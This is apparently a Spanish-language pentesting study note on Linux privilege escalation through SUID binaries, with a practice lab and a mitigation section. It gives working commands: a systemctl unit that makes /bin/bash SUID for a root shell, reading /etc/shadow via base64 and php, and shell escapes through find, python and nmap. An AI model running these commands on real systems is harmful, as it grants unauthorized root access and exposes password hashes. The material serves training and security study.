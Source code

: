 
---------

El abuso de binarios con el bit SUID (Set User ID) es una técnica común para escalar privilegios en sistemas Linux. Los archivos con SUID permiten que se ejecuten con los permisos del propietario del archivo, independientemente de quién los ejecute. Aquí tienes una guía para identificar y explotar binarios SUID:

---
#### Formas de escalada de privilegios 

```bash
find / -perm -4000 2>/dev/null    # Este comando nos permite buscar binarios con permisos de root dentro del sistema 

# Nos apareceran varios binarios que podemos buscarlos en GTFobins, algunos de ellos vulnerables pueden ser lo siguientes:
```

###### /bin/systemctl

```bash
cd /tmp    # Para explotar este binario nos colocamos en un escritorio con posibilidad de escritura como el /tmp
nano escalada.sh # Nos creamos un script en bash  y pegamos el siguiente contenido de la web de GTFobins
>
	TF=$(mktemp).service
	echo '[Service]
	Type=oneshot
	ExecStart=/bin/sh -c "chmod u+s /bin/bash"    
	[Install]
	WantedBy=multi-user.target' > $TF
	/bin/systemctl link $TF
	/bin/systemctl enable --now $TF
	
# ExecStart=/bin/sh -c "chmod u+s /bin/bash"     # Aqui controlamos el comando a ejecutar como root, en este caso dar privilegios a la sh

bash escalada.sh   # Ejecutamos el script para cambiar los permisos
bash -p            # Accedemos a la bash como root
```

*Recordar siempre ejecutar los binarios y sus instrucciones de escalada con su ruta absoluta*


---
#### Creación de laboratorio de practica


Estos permisos SUID afectan a nivel de sistema a todos los usuarios.
## Binario Base 64


Primero, verificamos qué permisos tiene el archivo ejecutando el siguiente comando:


`ls -l /ruta/del/archivo`

Esto mostrará detalles sobre el archivo, incluyendo si tiene el bit SUID activo, lo cual se indica con una "s" en los permisos (por ejemplo, `-rwsr-xr-x`).

![[Pasted image 20241026191221.png]]

Y posteriormente, le añadimos los permisos SUID al archivo para empezar con el laboratorio de la siguiente forma:


`chmod u+s /ruta/del/archivo`

Esto activará el bit SUID, permitiendo que el archivo se ejecute con los permisos del propietario, independientemente de quién lo ejecute.

![[Pasted image 20241026191321.png]]

De la siguiente manera podrías acceder a una ruta privilegiada usando el comando `base64` y el usuario `savitar`. En este caso, intentaremos leer el archivo `/etc/shadow`, donde se encuentran los usuarios con sus hashes de contraseñas, los cuales podríamos descifrar posteriormente para ejecutar ataques de fuerza bruta:


`sudo -u savitar base64 /etc/shadow`

Esto leerá el archivo `/etc/shadow` y lo mostrará codificado en base64, lo que puede ser útil para extraer información sensible sin tener permisos directos para visualizarlo.


![[Pasted image 20241026191555.png]]

Así es, también podrías usar el binario de `php` junto con rutas absolutas derivadas de enlaces simbólicos para leer archivos privilegiados. Si tienes permisos para ejecutar `php` con SUID o como otro usuario, puedes usar el siguiente comando para leer el archivo `/etc/shadow`:


`sudo /usr/bin/php -r 'echo file_get_contents("/etc/shadow");'`

Esto ejecuta un script de una línea que lee el contenido del archivo `/etc/shadow` y lo muestra en pantalla. Es una forma de usar `php` para acceder a archivos privilegiados sin tener permisos directos.

![[Pasted image 20241026192008.png]]

Con el siguiente comando puedes buscar desde la raíz archivos que tengan permisos SUID y así hacer un barrido justo después de explotar una máquina:


`find / -type f -perm -4000 2>/dev/null`

Este comando busca todos los archivos (`-type f`) que tienen el bit SUID activo (`-perm -4000`) en todo el sistema, comenzando desde la raíz (`/`). La salida de errores se redirige a `/dev/null` para que no se muestren los mensajes de permisos denegados al buscar en directorios restringidos. Esto te permitirá identificar binarios potencialmente vulnerables para escalar privilegios.

![[Pasted image 20241026192125.png]]










---

### 1. **Identificación de Binarios SUID**

- **Buscar Binarios SUID**: Usa el siguiente comando para listar todos los archivos con el bit SUID activo en el sistema:
    
    
    `find / -perm -4000 2>/dev/null`
    
- **Filtrar Binarios Inusuales**: Los binarios SUID comunes incluyen `/bin/passwd`, `/bin/su`, `/usr/bin/sudo`, etc. Presta atención a binarios menos comunes o personalizados, ya que pueden tener vulnerabilidades explotables.

### 2. **Comprender los Riesgos de SUID**

- **Permitir Acceso a Privilegios Elevados**: Los binarios SUID se ejecutan con los privilegios del usuario propietario (a menudo root). Si un binario SUID es explotable, podría permitir la ejecución de comandos como root, lo que resulta en escalamiento de privilegios.
- **Explorar Funcionalidades de Comando**: Algunos binarios SUID proporcionan funcionalidades que permiten ejecutar comandos arbitrarios o invocar shells con permisos elevados.

### 3. **Explotación Común de Binarios SUID**

- **Ejemplos de Binarios Comunes Vulnerables**:
    
    - **`/bin/bash` o `/bin/sh`**: Si se encuentra con el bit SUID, puedes usarlo para abrir una shell root directamente:
        
    
        `/bin/bash -p`
        
    - **`/usr/bin/nmap`**: En versiones más antiguas, puedes usar la opción interactiva para lanzar un shell:
        

        `nmap --interactive`
        
        Luego, dentro del modo interactivo, usa `!sh` para abrir un shell.
    - **`/usr/bin/find`**:
    
        
        `find . -exec /bin/sh \; -quit`
        
    - **`/usr/bin/python`**:
    
        
        `python -c 'import os; os.system("/bin/sh")'`
        
- **Cargar Librerías Personalizadas (`LD_PRELOAD`)**:
    
    - Algunos binarios permiten cargar librerías compartidas personalizadas. Si un binario con SUID no limpia las variables de entorno (`LD_PRELOAD`, `LD_LIBRARY_PATH`), puedes cargar tu propia librería para obtener una shell con privilegios elevados.

### 4. **Escenarios de Explotación Específicos**

- **Modificar Archivos Sensibles**: Si puedes encontrar un binario que permita escribir en archivos críticos, podrías cambiar configuraciones del sistema, agregar usuarios a `/etc/passwd`, o modificar `/etc/sudoers` para ganar acceso root.
- **Abusar de Scripts Propietarios**: Los scripts o binarios personalizados que tienen el bit SUID son especialmente peligrosos, ya que podrían no estar diseñados teniendo en cuenta la seguridad y ser explotables fácilmente.

### 5. **Mitigación**

- **Eliminar SUID de Binarios Innecesarios**: Audita regularmente el sistema para eliminar el bit SUID de archivos que no necesiten tenerlo.
- **Usar Controles de Acceso**: Configura controles de acceso estrictos y limita el uso de scripts personalizados que requieran SUID.
- **Validar Entradas y Variables de Entorno**: Asegúrate de que los binarios SUID limiten el uso de variables de entorno peligrosas y que validen todas las entradas de forma segura.

Esta guía proporciona una visión básica para identificar y explotar binarios SUID vulnerables. Siempre realiza pruebas en entornos controlados y de manera ética.

--------

